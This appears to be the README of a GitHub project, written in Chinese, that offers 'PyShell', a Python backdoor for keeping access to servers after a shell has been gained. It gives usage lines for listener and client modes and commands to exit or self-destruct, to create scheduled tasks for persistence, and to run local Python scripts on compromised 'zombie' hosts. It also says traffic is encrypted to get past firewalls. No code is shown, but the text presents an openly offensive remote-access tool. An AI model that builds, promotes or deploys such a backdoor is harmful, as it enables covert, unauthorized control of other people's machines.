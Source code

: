 # PyShell
python 后门程序

基于python编写的后门程序，主要用于获取服务器shell以后，留后门或者执行cmd、python脚本使用。

使用方法:

[HELP]  PyShell.exe [-listen(-slave)] [ip] [port]

[HELP]  python PyShell.py [-listen(-slave)] [ip] [port]

connection：

[HELP]  exit    ----退出连接

[HELP]  kill    ----退出连接并自毁程序

[HELP]  playtask    ----创建计划任务

[HELP]  python -p file.py    ----在肉鸡上执行本地python脚本


程序对互相传输的数据进行了加密，以绕过防火墙。
当需要在肉鸡上执行python脚本时，不需要在肉鸡上上传相应的脚本文件，只需将本地脚本内容加密传输到肉鸡，并执行即可。
